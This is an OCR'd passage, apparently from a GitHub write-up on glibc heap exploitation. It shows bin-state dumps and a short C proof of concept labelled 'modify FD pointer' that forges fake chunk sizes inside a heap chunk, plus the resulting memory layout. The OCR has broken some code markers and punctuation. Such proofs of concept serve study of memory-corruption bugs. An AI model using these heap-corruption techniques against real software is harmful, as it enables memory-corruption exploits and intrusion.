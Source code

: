 (0x40)     fastbin[2]: 0x0

(0x50)     fastbin[3]: 0x0

(0x60)     fastbin[4]: 0x0

(0x70)     fastbin[5]: 0x0

(0x80)     fastbin[6]: 0x0

                  top: 0x603450 (size : 0x1fbb0) 

       last_remainder: 0x0 (size : 0x0) 

            unsortbin: 0x0

(0x050)  smallbin[ 3]: 0x602050

(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )

*/

```

`POC 2`:modify FD pointer

`` `Cpp
unsigned long* chunk1=malloc(0x40); //0x602000

unsigned long* chunk2=malloc(0x100);//0x602050



chunk2[1]=0x31; //fake chunk size 0x30

chunk2[7]=0x21  //fake chunk's next chunk

chunk2[11]=0x21 //fake chunk's next chunk's next chuck

/ * Heap laylout
0000| 0x602000 --> 0x0 

0008| 0x602008 --> 0x51 ('Q')

0016| 0x602010 --> 0x0 

......

0080| 0x602050 --> 0x0 

0088| 0x602058 --> 0x111 

0096| 0x602060 --> 0x0 

0104| 0x602068 --> 0x31 ('1')

0112| 0x602070 --> 0x0 

......

0144| 0x602090 --> 0x0 

0152| 0x602098 --> 0x21 ('!')

0160| 0x6020a0 --> 0x0 

0168| 0x6020a8 --> 0x0 

0176| 0x6020b0 --> 0x0 
```